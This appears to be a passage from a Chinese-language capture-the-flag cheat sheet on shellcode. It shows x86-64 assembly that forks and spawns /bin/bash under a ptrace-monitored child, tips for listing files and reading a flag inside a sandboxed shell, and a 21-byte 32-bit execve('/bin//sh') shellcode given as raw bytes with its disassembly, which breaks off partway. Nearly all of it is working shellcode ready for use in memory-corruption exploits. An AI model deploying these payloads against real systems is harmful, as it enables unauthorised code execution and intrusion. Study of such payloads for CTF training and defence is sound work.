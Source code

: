 ```x86asm
    xor rdx,rdx
    xor r10,r10
    mov rax,101
    syscall

    jmp monitor_child

child_process:
    /* syscall(SYS_nanosleep,t,0) */
    push 0
    push 1
    mov rdi,rsp
    xor rsi,rsi
    mov rax,0x23
    syscall

    /* execve("/bin/bash",0,0) */
    mov rax,0x0068 /* "h\x00" */
    push rax
    mov rax,0x7361622f6e69622f /* "/bin/bas" */
    push rax
    mov rdi,rsp
    mov rsi,0
    xor rdx,rdx
    mov rax,59
    syscall

    jmp child_process

_exit:
    /* exit(0) */
    mov rax,60
    xor rdi,rdi
    syscall

```

注意一下这样最终拿到的shell仍然是在沙箱环境下的，除了基本的cd,pwd,echo，很多命令执行不了，而且echo也只有部分功能
这边给出ls和读flag的方法
```shell
# ls
echo *

# cat flag
read -r f < flag
echo ${f}
```

## 32位
### execve
#### 较短 21字节
> 由于中间有个'\x0b'，所以scanf读不进去
```python
b"\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"
```
```x86asm
push   0xb
pop    eax
cdq
push   edx
push   0x68732f2f
push   0x6e69622f
mov    ebx, esp
```